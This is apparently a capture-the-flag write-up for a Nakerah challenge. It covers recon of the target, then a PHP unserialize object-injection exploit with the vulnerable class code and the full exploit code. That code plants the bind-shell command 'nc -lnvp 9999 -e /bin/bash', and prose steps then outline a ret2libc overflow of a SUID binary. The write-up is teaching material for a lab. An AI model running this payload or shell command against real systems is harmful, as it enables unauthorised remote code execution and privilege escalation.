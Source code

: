 <div align="center"><h1>Nakerah CTF </h1></div>
Peace, mercy and blessings of God 

today we are going to solve an interesting ctf from nakerah nakerha.com
our goal is to read root's flag file 
expolit will be devided into two missions first deserilization attack then ret2libc
so with all that being said; let's right jump in !!

first we have that static page 
[logo]: img/1.png
![alt text](img/1.png "static page")

looking around source code nothing interested there 
[logo]: img/2.png
![alt text](img/2.png "source code")

so let's nmap it
[logo]: img/3.png
![alt text](img/3.png "nmap result")

as we see we have some other ports 
22 ssh we dont have any creds and it seems to be updated
25 smtp is filtered so we maybe come back to it later
80 http we already checked it
so lets visit port 8080 and see what behind the scene
[logo]: img/4.png
![alt text](img/4.png "port 8080")

just another blank page (: i got bored so let's gobuster it :XD
 [logo]: img/5.png
![alt text](img/5.png "gobuster")

 so we have /backup file seems to be interesting let's dump it
 [logo]: img/6.png
![alt text](img/6.png "source code")

 after downloading the file it's php code 
 [logo]: img/7.png
![alt text](img/7.png "backup file")

 so let's analyze it
 
 class exCommand{
        public function __destruct(){
            system($this->command);
        }
    }
here it creates an exCommand class and use a magic method __destruct then pass the value of command propert to system function
Destructor is php magic method automatically called and allows you to perform some operations before destroying an object which will be our attack vector
class Hello{
        private $name;
        private $role;
        private $isSet;
        public function check(){
           $this->isSet=isset($_COOKIE['name']);
        }
        
        }
    }
here creating class Hello with some private properties and check function to verify if there's a cookie name  
public function printHello(){
            if($this->isSet){
                echo "<br >" . $_COOKIE['name']."<br /><br /><br />";
                echo "Hello " . $this->name . "<br>";
                echo "your role is " . $this->role . "\n";
                echo "<br ><br ><br >";
            }else{
                echo "good";
            }
another function printHello fisrt verify if there's a property isSet it will print our cookie, say hello to our cookie name and print our role but if not it will just print good

$obj = unserialize($_COOKIE['name']);
$obj->check();
$obj->printHello();
at last here it create an var, assign it's value to our deserialized_cookie passing it to check and printHello functions

so to stay focus here it's deserilization attack and we need to pass our command to exCommand funcion which has that magic method
the problem here is that first with exCommand class we used   a property command without identifying it so in our exploit we will have to pass it to an object and  give it a vlaue
second problem is that we have to bypass that cookie checks so let's write our exploit code
the trick here is if we bypass check function it will just print some staff and if we try to target our exCommand class it will fail with check function so ...
so we will create exCommand object identify command property with a value (our command) put it inside  Hello calss and selialize all that staff together
[logo]: img/ex.png
![alt text](img/ex.png "exploit code")

code analysis:

class exCommand{
   public function __destruct(){
   system($this->command);
    }
}
here we just create the same exCommand class,

$x = new exCommand;
$x->command = "nc -lnvp 9999 -e /bin/bash";
create our object and give the command property our target command (bind shell)$y = new Hello;
class Hello{
        public $name;
        public $role;
        public $isSet;
        public $dummy;
}
create class hello with some properites (dummy one is interesring just continue ..!)
$y->name = "fady";
$y->role = "hacker";
$y->isSet = 1;
$y->dummy = $x;

print serialize($y);
creating an oject of Hello class assing some values to properties and what interesting here it that dummy propety we gave it a value of our exCommand object and finally serialize all that staff and here is our final serialized data
[logo]: img/8.png
![alt text](img/8.png "serialized data")

and let's try connect
[logo]: img/9.png
![alt text](img/9.png "spawingin a shell")

and voila we get our shell fisrt missin completed successfully
in the root dir we got file 
[logo]: img/11.png
![alt text](img/11.png "static page")

NX which stand for non-executable so here we know it's BOF expolit with ret2libc
after some enum we got that interesting suid file

[logo]: img/12.png
![alt text](img/12.png "static page")
so after getting it in our local machine to understand it better 

[logo]: img/13.png
![alt text](img/13.png "static page")

we can identify that NX is enables trying to run it gives seg fault after trying passing some args it just exit
[logo]: img/14.png
![alt text](img/14.png "static page")

so let's create our buffer with msf-patter-create and fire up gdb to get the exact offset
[logo]: img/15.png
![alt text](img/15.png "static page")

to get things more easy let's check ASLR in the vectim machine
[logo]: img/16.png
![alt text](img/16.png "static page")

and happy news that will make our life easier so hence we will work in our target machine to get some address
[logo]: img/17.png
![alt text](img/17.png "static page")

we got addresses of system and exit now we need address of /bin/sh
[logo]: img/18.png
![alt text](img/18.png "static page")

to get the exact address of /bin/sh in the run time we add its address to starting of libc address
[logo]: img/19.png
![alt text](img/19.png "static page")

not our exploit is complete lets have a lock at it
[logo]: img/20.png
![alt text](img/20.png "static page")

now let's give it a try
[logo]: img/21.png
![alt text](img/21.png "static page")

and finally i want to say to Nakerah team “You're the best.”
 
